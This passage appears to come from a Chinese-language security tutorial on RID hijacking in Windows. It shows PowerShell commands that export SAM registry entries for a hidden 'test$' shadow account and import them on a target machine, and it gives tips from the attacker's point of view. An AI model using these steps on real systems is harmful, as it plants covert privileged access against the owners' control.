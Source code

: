 ![RID 劫持 - 验证劫持结果.png](assets/1708583418-bd2523062f73d7fca50d9ac48e5af767.png)

替换完成将用户导出，在目标机器上导入即可。

```plaintext
PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC Desktop/000003EC.reg
操作成功完成。

PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ Desktop/test$.reg
操作成功完成。
```

站在攻击者视角来看，真正利用时肯定不是在目标机器上一顿创建账户再劫持 RID，而是根据目标系统类型，在本地测试机上创建影子用户，做好 RID 劫持，最后在目标机器导入这两个注册表。这里再提醒下，导入一定得有权限编辑，就像前面说的默认情况只有 SYSTEM 有权限编辑 SAM 注册表。

```plaintext
PS C:\Users\123> reg import Desktop/000003EC.reg
操作成功完成。
PS C:\Users\123> reg import Desktop/test$.reg
操作成功完成。
```
